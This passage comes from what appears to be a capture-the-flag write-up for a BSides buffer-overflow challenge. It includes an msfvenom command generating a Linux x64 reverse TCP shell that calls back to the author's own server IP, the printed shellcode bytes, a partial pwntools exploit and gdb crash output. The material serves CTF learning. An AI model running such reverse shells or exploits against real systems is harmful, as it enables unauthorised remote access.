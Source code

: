 Awesome! So we've exploited the process and our current crash is while trying to execute in our payload of "A"s which are the 0x41 bytes.

Time for shellcode, but before we go down that path let's consider what we're working with.

So far our buffer is only a measly 78 bytes long. Subtract 6 bytes for the EIP we need to inject that's 72 and we have to deduct a few more bytes from that to take into account any values our shellcode may need to push onto the stack in order to successfully execute. This leaves us with about 64 bytes give or take and there aren't that many options for shellcode that small that will operate remotely.

For my situation I decided I would go for a reverse TCP shell payload, keeping in mind the BSides event information and knowing that the challenges are in a chroot environment with only /bin/sh and /bin/cat really available. This seemed to be a good option.

So off to metasploit framework to generate our payload, I used msfvenom tool for this in Kali which I configured to send me a shell to my EC2 instance on port 80/tcp:

**Note**: You will not be able to directly use this shell code as it points directly to my EC2 instance. You'll need to use msfvenom to generate your own shellcode.

```
root@mankrik:~/bsides# msfvenom -f python -p linux/x64/shell_reverse_tcp LHOST=54.65.5.90 LPORT=80  
No platform was selected, choosing Msf::Module::Platform::Linux from the payload  
No Arch selected, selecting Arch: x86_64 from the payload  
No encoder or badchars specified, outputting raw payload  
buf = ""  
buf += "x6ax29x58x99x6ax02x5fx6ax01x5ex0fx05x48"  
buf += "x97x48xb9x02x00x00x50x36x41x05x5ax51x48"  
buf += "x89xe6x6ax10x5ax6ax2ax58x0fx05x6ax03x5e"  
buf += "x48xffxcex6ax21x58x0fx05x75xf6x6ax3bx58"  
buf += "x99x48xbbx2fx62x69x6ex2fx73x68x00x53x48"  
buf += "x89xe7x52x57x48x89xe6x0fx05"  
```

Argh! We have a problem. We only have 64 bytes or less available but my shellcode is 74 bytes. What to do? We need to spread out more. Hopefully we can figure this out by supplying a bigger buffer in our exploit.

Lets' add another buffer in our exploit and change the payload:

```
from pwn import *  
buf = "A" * 72  
after = "A" * 80  
# open the tcp connection and receive the banner  
...  
# build payload  
attackstring = buf + data + after  
# display some debug information for ourselves  
...  
```

Lets run the exploit and debug...

```
0x7fffc31fe000  
0x00007f9331cfd970 in read () from /lib/x86_64-linux-gnu/libc.so.6  
(gdb) c  
Continuing.  
Program received signal SIGSEGV, Segmentation fault.  
0x00000000004005f2 in ?? ()  
(gdb) x/4i $pc  
=> 0x4005f2:     retq    
 0x4005f3:     nopw  %cs:0x0(%rax,%rax,1)  
 0x4005fd:     nopl  (%rax)  
 0x400600:     push  %r15  
```
